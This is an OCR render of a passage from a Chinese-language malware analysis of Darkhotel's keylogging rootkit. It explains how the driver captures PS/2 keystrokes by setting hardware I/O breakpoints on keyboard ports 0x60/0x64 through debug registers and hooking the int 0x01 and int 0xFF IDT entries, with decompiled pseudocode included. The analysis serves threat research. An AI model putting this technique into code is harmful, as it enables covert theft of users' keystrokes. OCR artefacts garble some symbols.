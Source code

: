 [[System Process]] [o] [] [System] [4][]  

[\SystemRoot\System32\smss.exe] [312] [SYSTEM] [C:\Windows\system32\csrss.exe] [412] [SYSTEM] [C:\Windows\system32\wininit.exe] [464] [SYSTEM] [C:\Windows\system32\csrss.exe] [472] [SYSTEM]  

其次是持续收集的内容，包括击键信息和顶层窗口信息，并记录时间。  

首先是当前顶层窗口的标题、PID和模块路径，若顶层窗口为IE浏览器，则获取其输入栏文本，以记录用户浏览的网址。  

(6-15 15:48:13)[Process title: D:\info.txt - Notepad++, path: D:\Notepad++\notepad++.exe, ID: df4]持续收集的内容还包括用户击键信息，通过安装的驱动组件收集。该组件首先向驱动设备发送控制码0x220004以清空驱动的击键信息内存，接着持续发送控制码0x220000来收集击键内容，解析后写入日志并加密。  

## 2.4Rootkit收集击键内容  

blog.nsfocus.net/darkhotel-3-0908/  

Darkhotel的驱动组件设置了I/O读写断点，并Hook了intOx1的中断处理回调和lofCallDriver，从而获取到PS/2键盘和USB键盘的击键信息。  

### 2.4.1获得PS/2键盘击键内容  

该驱动则按CPU个数创建定时器，并设置DPC回调。  

在DPC回调中，该驱动将键盘读写端口0x60和0x64分别写入dr0和dr1寄存器，并将dr7的对应位改为二进制10，以设置I/O硬件读写断点。同时为了防止断点在任务切换时失效，驱动设置了dr7的GD位，使得任何访问或修改调试寄存器的操作都会触发1号中断。  

should_hook_idt_58AE0 = 1;   
v5= readcr4();   
dword_58368 = v5; writecr4(v5 |8);   
v6= readdr(0);   
old_dr0 = v6;   
v7= readdr(1u);   
old_dr1 = v7;   
v8= readdr(2u);   
old_dr2 = v8; writedr(0, 0x60u); writedr(1u,0x64u); writedr(2u, Sub_13410_ptr);   
v9 readdr(7u);   
old_dr7 = v9; writedr(7u, 0x22273Fu);  

//dr0=0x60   
// dr1 $=$ 0x64   
//dr7 $=$ 1000100010011100111111   
// dr7.RWo $=$ 10   
// dr7.RW1 $=$ 10  

接着将1号中断处理函数改为自己的函数。当I/O读写命中硬件断点时，会触发单步调试异常，从而进入1号中断回调函数。  

v10_entry_addr $=$ get_idt_entry_by_index(1u);// hook int 0x01 单步异常   
v11_hi_offset = \*(_woRD \*)(v10_entry_addr + 6);   
original_idt_cb_582E0[a2_cpu_index]=v11_hi_offset;   
\*(_WORD \*)(v10_entry_addr $^+$ 6) $=$ (unsigned int)idt_single_step_hook_cb >> 16;// 修改Highoffset v12 = \*(_woRD \*)v10_entry_addr;   
idt_entry_list[a2_cpu_index] $=*$ (_WORD \*)v10_entry_addr;   
\*(_wORD \*)v10_entry_addr $=$ (unsigned int)idt_single_step_hook_cb;// 修改Lowoffset   
byte_953BA480[a2_cpu_index] = \*(_BYTE \*)(v10_entry_addr + 5);   
\*(_BYTE \*)(v10_entry_addr $^+$ 5)[=0xEOu;   
v13 =(v11_hi_offset << 16) $^+$ v12;   
v14 = \*(_woRD \*)(get_idt_entry_by_index(1u) + 6);   
dword_953BA340[a2_cpu_index] = v13;   
result = get_idt_entry_by_index(OxFFu); //hook intOxff   
\*(_wORD \*)(result $^+$ 6)=(unsigned int)idt_0xff_hook_cb >> 16;   
\*(_WORD \*)result $=$ (unsigned int)idt_oxff_hook_cb;   
\*(_BYTE \*)(result +5)|= OxEOu;  
